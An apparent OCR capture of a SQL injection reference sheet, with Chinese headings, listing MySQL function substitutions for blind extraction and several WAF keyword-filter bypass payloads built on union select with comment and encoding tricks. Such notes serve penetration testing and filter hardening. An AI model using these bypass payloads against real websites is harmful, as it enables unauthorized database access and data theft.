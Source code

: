 ```
mid('abc',1,1) = 'a'
mid('abc' from 1 for 1) = 'a'
lpad('abc',1,space(1)) = 'a'
rpad('abc',1,space(1)) = 'a'
left('abc',1) = 'a'
reverse(right(reverse('abc'),1)) = 'a'
insert(insert('abc',1,0,space(0)),2,222,space(0)) = 'a'
space(0) = trim(version()from(version()))

#搜索子字符串
locate('a','abc')
position('a','abc')
position('a' IN 'abc')
instr('abc','a')
substring_index('ab','b',1)

#分割字符串
length(trim(leading 'a' FROM 'abc'))
length(replace('abc', 'a', "))

#比较字符串
strcmp('a','a')
mod('a','a')
find_in_set('a','a')
field('a','a')
count(concat('a','a'))

#字符串长度
length()
bit_length()
char_length()
octet_length()
bit_count()

#关键字过滤
Connected keyword filtering
(0)union(select(table_name),column_name,…
0/**/union/*!50000select*/table_name`foo`/**/…
0%a0union%a0select%09group_concat(table_name)….
0′union all select all`table_name`foo from`information_schema`. `tables`

#控制流
case 'a' when 'a' then 1 [else 0] end
case when 'a'='a' then 1 [else 0] end
if('a'='a',1,0)
ifnull(nullif('a','a'),1)

```

### d) 测试向量
